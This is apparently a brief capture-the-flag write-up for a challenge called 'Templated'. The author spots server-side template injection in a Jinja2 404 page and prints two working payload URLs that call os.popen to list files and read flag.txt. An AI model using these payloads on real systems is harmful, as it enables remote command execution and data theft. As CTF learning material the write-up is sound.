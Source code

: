 ## Templated
There is a site, with a message that it's under construction. When I tried to open some page, I got a message "The page 'some' could not be found". The first thought was to try some template tags, so I use http://url/{{1+1}} and got "The page '2'...". At this point I realized that somehow I can run the python command here. I googled about template injection and found it https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
Well, there is nothing private in python so I can run any builtins throughout available at the template request.

```
To see what I can read
http://url/{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

To read
http://url/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```
